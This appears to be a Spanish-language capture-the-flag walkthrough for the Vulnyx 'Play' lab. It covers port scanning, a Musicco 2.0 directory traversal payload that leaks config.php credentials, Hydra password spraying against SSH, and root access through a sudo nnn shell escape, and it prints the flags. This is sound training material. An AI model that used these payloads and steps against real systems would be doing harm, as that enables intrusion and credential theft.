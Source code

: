 ```yaml
---
icon: flag
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# Play Vulnyx (Easy - Linux)

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-20 03:58 EDT
Nmap scan report for 192.168.5.85
Host is up (0.0014s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 f0:e6:24:fb:9e:b0:7a:1a:bd:f7:b1:85:23:7f:b1:6f (RSA)
|   256 99:c8:74:31:45:10:58:b0:ce:cc:63:b4:7a:82:57:3d (ECDSA)
|_  256 60:da:3e:31:38:fa:b5:49:ab:48:c3:43:2c:9f:d1:32 (ED25519)
80/tcp open  http    Apache httpd 2.4.56 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.56 (Debian)
MAC Address: 08:00:27:E6:29:D5 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.99 seconds
```

Veremos varias cosas interesantes, pero entre ellas el puerto `80` que normalmente aloja una pagina web, por lo que vamos a ir a dicha pagina a ver que vemos, entrando dentro veremos una pagina normal de `apache2` lo cual no habra nada interesante, por lo que vamos a realizar un poco de `fuzzing` a ver que vemos.

## Gobuster

```shell
gobuster dir -u http://<IP>/ -w <WORDLIST> -x html,php,txt -t 50 -k -r
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.5.85/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 277]
/index.html           (Status: 200) [Size: 10701]
/.html                (Status: 403) [Size: 277]
/playlist             (Status: 200) [Size: 134071]
/.html                (Status: 403) [Size: 277]
/.php                 (Status: 403) [Size: 277]
/server-status        (Status: 403) [Size: 277]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

Veremos un recurso compartido bastante interesante llamado `/playlist`, si entramos dentro veremos una pagina de un reproductor de musica, vamos a investigar que `software` es y que version tiene por si tuviera alguna vulnerabilidad.

Investigando un poco si vamos a los ajustes y vamos a la propia info de la aplicacion, veremos que tiene la version `2.0` y que la pagina se llama `musicco`, buscando veremos un `exploit` asociado al mismo.

URL = [ExploitDB Musicco 2.0.0 - Arbitrary Directory Download](https://www.exploit-db.com/exploits/45830)

Veremos que la siguiente ruta es vulnerable por la documentacion:

```
URL = http://localhost/[PATH]/?getAlbum&parent=[Directory]&album=Efe
```

Vamos adaptarlo a nuestras necesidades quedando algo asi:

```
URL = http://<IP>/playlist/?getAlbum&parent=../playlist&album=Efe
```

Probando varias veces, como tenemos que ir al directorio padre, tendremos que salir primero del propio directorio `playlist` y con eso se nos descargara un `.zip` el cual vamos a descomprimir a ver que vemos.

## Escalate user andy

```shell
unzip Efe.zip
```

Veremos que nos descomprime toda la estructura de carpetas de dicha pagina:

```
total 8216
drwxr-xr-x  6 root root    4096 Aug 20 04:24 .
drwxr-xr-x 28 kali kali    4096 Aug 20 03:51 ..
drwxr-xr-x  2 root root    4096 Aug 20 04:24 app
-rwx------  1 root root     503 Sep  9  2023 config.php
drwxr-xr-x  6 root root    4096 Aug 20 04:24 doc
-rwx------  1 root root    7406 Oct 28  2018 favicon.ico
-rwx------  1 root root  191644 Oct 28  2018 index.php
drwxr-xr-x 14 root root    4096 Aug 20 04:24 lib
-rwx------  1 root root     872 Oct 28  2018 manifest.json
-rwx------  1 root root    4466 Oct 28  2018 musicco.js
-rwx------  1 root root   73728 Aug 20  2025 music.db
-rwx------  1 root root     158 Oct 28  2018 offline.html
-rwx------  1 root root    5320 Oct 28  2018 README.md
drwxr-xr-x  3 root root    4096 Aug 20 04:24 theme
```

Veremos interesante el archivo llamado `config.php`, si lo leemos veremos lo siguiente:

```php
<?php
$_CONFIG['saveConfig'] = '';
$_CONFIG['users'] = array(
         array('admin', 'admin', 'true'),
         array('guest', 'guest', 'false'),
         array('unknown', 'iL0v3Mu$1c', 'false'),
);
$_CONFIG['lang'] = 'en';
$_CONFIG['musicRoot'] = 'music';
$_CONFIG['coverFileName'] = 'folder';
$_CONFIG['coverExtension'] = '.png';
$_CONFIG['loadLyricsFromFile'] = 'on';
$_CONFIG['lookUpLyrics'] = 'on';
$_CONFIG['downLoadMissingCovers'] = 'on';
$_CONFIG['searchEngine'] = '';
$_CONFIG['imageSearchEngine'] = '';
?>
```

Veremos unas credenciales en dicho archivo, pero si por `SSH` probamos las credenciales con los usuarios, no tendremos suerte, sabemos que tenemos una contraseña, vamos a probarla en diferentes usuarios a ver si hay suerte.

### Hydra

```shell
hydra -L <WORDLIST> -p 'iL0v3Mu$1c' ssh://<IP> -t 64 -I
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-08-20 04:33:15
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 624370 login tries (l:624370/p:1), ~9756 tries per task
[DATA] attacking ssh://192.168.5.85:22/
[22][ssh] host: 192.168.5.85   login: andy   password: iL0v3Mu$1c
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
```

Veremos que tendremos un usuario llamado `andy`, por lo que vamos a conectarnos por `SSH` de esta forma:

### SSH

```shell
ssh andy@<IP>
```

Metemos como contraseña `iL0v3Mu$1c`...

```
andy@play:~$ whoami
andy
```

Veremos que estaremos dentro, por lo que leeremos la `flag` del usuario.

> user.txt

```
d7a5677b8846501dc904115025cfcdfd
```

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for andy on play:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User andy may run the following commands on play:
    (root) NOPASSWD: /usr/bin/nnn
```

Veremos que podemos ejecutar el binario `nnn` como el usuario `root` por lo que vamos a realizar lo siguiente:

```shell
sudo nnn -e
#Dentro del editor
!
```

> Dentro del editor tendremos que pulsar `!` para invocar una `shell` la cual se invocara como el usuario `root`.

Info:

```
root@play:/home/andy# whoami
root
```

Con esto veremos que ya seremos `root`, por lo que leeremos la `flag` de `root`.

> root.txt

```
97703e4658a2ecad34fe4dc3bf92db1a
```
